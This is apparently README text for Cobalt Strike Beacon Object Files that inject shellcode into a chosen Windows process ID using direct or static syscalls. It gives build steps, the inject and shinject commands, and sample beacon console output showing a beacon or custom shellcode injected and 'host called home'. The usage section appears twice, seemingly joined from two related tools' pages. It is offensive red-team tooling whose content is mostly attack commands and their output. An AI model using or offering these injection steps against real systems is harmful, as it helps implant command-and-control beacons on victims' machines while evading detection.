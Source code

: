 ## Compile

```
make
```

## Usage

- `static_syscalls_inject PID listener_name` - Injects shellcode for beacon into target PID. 
- `static_syscalls_shinject PID path_to_bin` - Injects custom shellcode into target PID.

> NOTE: BOF is for 64-bit use only.

### Custom shellcode
```
beacon> static_syscalls_shinject 4052 C:\Users\user\shellcode\calc.bin
[*] Static Syscalls Shellcode Injection BOF (@ajpc500)
[*] Reading shellcode from: C:\Users\user\shellcode\calc.bin
[+] host called home, sent: 4824 bytes
[+] received output:
Shellcode injection completed successfully!
```

### Beacon shellcode
```
beacon> static_syscalls_inject 4972 http
[*] Static Syscalls Shellcode Injection BOF (@ajpc500)
[*] Using http listener for beacon shellcode generation.
[+] host called home, sent: 266180 bytes
[+] received output:
Shellcode injection completed successfully!
```


## Compile

```
make
```

## Usage

- `syscalls_inject PID listener_name` - Injects shellcode for beacon into target PID. 
- `syscalls_shinject PID path_to_bin` - Injects custom shellcode into target PID.

> NOTE: BOF is for 64-bit use only.

### Custom shellcode
```
beacon> syscalls_shinject 2268 C:\Users\user\Desktop\beacon64.bin
[*] Syscalls Shellcode Inject (@ajpc500)
[*] Reading shellcode from: C:\Users\user\Desktop\beacon64.bin
[+] host called home, sent: 266159 bytes
[+] received output:
Shellcode injection completed successfully!
```
